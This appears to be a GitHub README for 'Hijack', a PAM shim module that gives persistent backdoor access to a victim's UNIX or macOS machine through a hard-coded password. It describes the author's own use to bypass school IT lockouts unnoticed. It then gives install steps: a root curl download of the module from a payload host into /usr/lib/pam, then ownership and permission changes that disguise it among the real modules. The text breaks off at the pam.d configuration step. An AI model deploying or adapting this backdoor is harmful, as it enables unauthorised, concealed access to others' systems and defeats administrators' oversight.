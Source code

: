 # Hijack
Hijack is a PAM module created to act as a shim enabling sustained "legitimate" access to an unsuspecting victim's UNIX-based computer, even in the event of a password change.

**DISCLAIMER**
 - This small utility is provided for educational use on machines you yourself own or whose owner has given you their full consent. You are solely responsible for any, uh... trouble in which you might (and probably will) find yourself after using hijack under other conditions.
 - Hijack is not exactly designed with security in mind. Of course, you are free to use it as a foothold to get back into your box in the event of a password mishap (or some similar event), but this is *not* recommended by any means. As of the current version, the "secret" password hijack checks against is simply a string literal stored in plaintext within the hijack binary. Anyone who greps through the binary can see it – you can try this yourself if you'd like: just run `strings /usr/lib/pam/hijack.so` and you should see your password in the output. Bad design, I know. I'm just too lazy to fix it.

## About Hijack, its Features and Various Caveats
I originally created hijack during my freshman year in high school. Simply put, it was born of pure frustration. I would... erm... "play around" with my school computer a lot, and thus the IT department made a habit of locking my school LDAP account during certain times of the day. On Macs, LDAP authentication is integrated into the Open Directory framework, so it was impossible to simply change its PAM priority as one might do on Linux. The laptop was set up in such a way that making new local accounts was impossible, so that wasn't an option. At this point I thought about reimplementing pam_unix for OSX, but instead thought of hijack. After bypassing the EFI security (story for another time ^\_^), I booted into single-user mode and deployed hijack for the first time ever! With it I was able to unlock the laptop from the screensaver password prompt using a secondary hard-coded password, bypassing OpenDirectory and LDAP. Problem solved, admins none the wiser. (¬‿¬) I didn't think it'd really be useful to anyone else, but a few people have since asked for the source, so I've put it up here on github.

This code has only been tested on Mac OS X (versions 10.7 - 10.10), but it should theoretically function on any UNIX system that employs PAM authentication.

IMPORTANT: Hijack does *not* affect LoginWindow.app (the Mac OS X login screen), as it refuses to go through PAM for some reason. Hijack **does** however work fine in conjunction with setuid-based privilege management systems like su/sudo and over traditional UNIX remote access services such as SSH/telnet/rlogin, etc. Ironically, the Mac OS X screensaver password lock also seems to work without a hitch.


## Building
Building hijack is not very difficult. It've gotten it to build flawlessly with both clang and tcc on my MacBook; YMMV with other setups. There's no configure script or anything, just a Makefile. The code itself is stupidly simple, as it's just a shim. Modify the Makefile as needed if your toolchain complains about something, it's only around 15 lines long.

For those of you who aren't familiar with the unix build system: just pop open a shell window, cd to the source directory, and type `make`. Mac OS X users will need to have installed Apple's Xcode command line tools package for this to work correctly – if you haven't already done so just execute `xcode-select --install` in your shell and click "Install" (*not* "Get Xcode", unless of course you *want* to have Xcode).

## Installing
Installing is also a walk in the park, but it does require you to spend a minute or so on the admin account of the machine in question. It'll work over SSH (or any other remote PTY) as well of course, so physical access is not necessarily a prerequisite in every case. The process itself remains more or less identical across different machines running the same OS, and can easily be automated with a shell script – which in turn speeds installation even further, especially when paired with a `curl | sh`-style pipe command. Such a script is intentionally not included for (hopefully) obvious reasons. If you require this or similar functionality though, rest assured that it's completely trivial to implement by oneself.

1. Move a copy of the shared library file `hijack.so` into your PAM library path. The precise location differs according to operating system – on some systems it can be ascertained by simply scrolling to the end of PAM's manual page ('man pam'), others might have you resorting to something like `locate pam_rootok` which, while perfectly functional, is a little bit messy in my opinion. On Mac OS X however, I've found that it's nearly always `/usr/lib/pam/`.
```
    $ sudo -i
    Password:
    # curl -L http://web.server.hosting.payload/payloads/hijack.so -o /usr/lib/pam/hijack.so
```
2. Change the permission attributes of `/usr/lib/pam/hijack.so` to match the other "real" PAM modules in `/usr/lib/pam`. On my MacBook, this is `root:wheel` ownership and mode 0444. In this case I downloaded the file as root, so already had the correct ownership – but I'll just `chown` it anyway for kicks.
```
    # cd /usr/lib/pam
    # chown root:wheel hijack.so
    # chmod 0444 hijack.so
```
3. Edit the relevant configuration files in ``/etc/pam.d`

